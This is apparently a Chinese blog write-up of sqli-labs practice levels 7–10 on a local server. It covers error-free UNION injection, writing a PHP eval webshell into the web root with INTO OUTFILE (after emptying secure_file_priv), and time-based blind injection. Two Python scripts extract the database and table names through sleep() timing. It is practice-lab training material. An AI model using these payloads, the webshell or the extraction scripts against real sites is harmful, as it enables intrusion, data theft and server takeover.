

### Less-7
本关的标题是dump into outfile,意思是本关我们利用文件导入的方式进行注入,其实难点在于 猜测SQL语句和寻找网站的绝对路径，太菜了的我连自己本地都打了很久orz,不过也学到这个骚操作
首先通过测试猜源码
```
id')) LIMIT 0,1"
所以
```
?id=1')) or 1=1--+
没有报错
然后可以利用文件导入导出，我一开始试了很久没写进去，找到了大师傅的博客
[https://blog.csdn.net/HHTNAN/article/details/78520511](https://blog.csdn.net/HHTNAN/article/details/78520511),了解到MYSQL数据导出与导入，secure_file_priv参数需要设置
在mysql文件下的my.ini文件的`[mysqld]`写入
```
secure_file_priv=''
```
至于为什么，请参考大师傅的博客
然后就很顺利
```
?id=1')) union select 1,2,3 into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
```


然后就可以写入一句话木马
```
?id=1')) union select 1,2,'<?php @eval($_post["mima"])?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
```

### Less-8 
和Less-5居然一样的？盲注脚本都一样,可以参考第五题
[https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more](https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more)

### Less-9
题目叫做GET-Bind-Time based XXX时间盲注，所以专门查看了一下时间盲注和布尔注入的一些基础知识
#### 时间盲注：
时间盲注利用前提条件：
页面上没有显示位，也没有输出SQL语句执行错误信息。 正 确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条 件之后，页面的返回速度明显慢了5秒。

时间盲注常用函数：
IF(判断语句,A,B)
如果判断语句为真，则返回A
为假则返回B
一般和布尔盲注语句配合使用：
```
if(ascii(substr(“payload”, 1, 1))=104, sleep(5), 1)
```
如果第一个，号前的语句成立，则页面返回速度慢5秒
不成立，页面立即返回

时间盲注过程：
```
if((select count(schema_name) from information_schema. schemata)=9,sleep(5),1) //判断数据库个数
if((select length(schema_name) from information_schem a.schemata limit 0,1)=18,sleep(5),1)
if((select ascii(substr((select schema_name from info rmation_schema.schemata limit 0,1),1,1)))=105,sleep(5),1)//判断 第一个库第一个字符
```

所以本题先疯狂试探,发现不管咋样都是返回一样的，和铁疙瘩一样，所以就能通过时间盲注
```
?id=1' and sleep(3)%23
```
发现等了3秒钟才响应了
然后和盲注一样玩
```
1' and If(ascii(substr(database(),1,1))>115,1,sleep(5))--+
```
然后通过这个脚本拿到当前数据库的名字
```python
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
	url_new = url + payload
	time_start = time.time()
	content = requests.get(url=url_new)
	time_end = time.time()
	if time_end - time_start >5:
		return 1
result  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyz_'
for i in range(1,50):
    flag=0;
    for c in s:
        payload = "'and if(substr(database(),%d,1)='%c',sleep(5),1)--+" % (i,c)
        print("Database name: "+result+" | Payload: "+payload)
        if check(payload):
            flag=1;
            result += c
            break
    if(flag==0):
        print("Over")
        break
    print (result)
```

然后通过这个脚本得到第一个security数据表
```python
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
	url_new = url + payload
	time_start = time.time()
	content = requests.get(url=url_new)
	time_end = time.time()
	if time_end - time_start >5:
		return 1
result  = ''
panduan = ''
ll=0
s = r'0123456789abcdefghijklmnopqrstuvwxyz'
for i in range(1,100):
    for c in s:
        payload = "'and if(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),%d,1)='%c',sleep(5),1)--+" % (i,c)
        print("Table_name name: "+result+" | Payload: "+payload)
        if check(payload):
            result += c
            break
    if ll==len(result):
    	print ('table_name:  '+result)
        break
    ll = len(result)
    print (result)
```

### Less-10
和第九题一样 , 将单引号换成双引号就好了
```
?id=1" and sleep(1)%23
```
脚本和图九差不多只要修改一下闭合的单引号换成双引号

更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)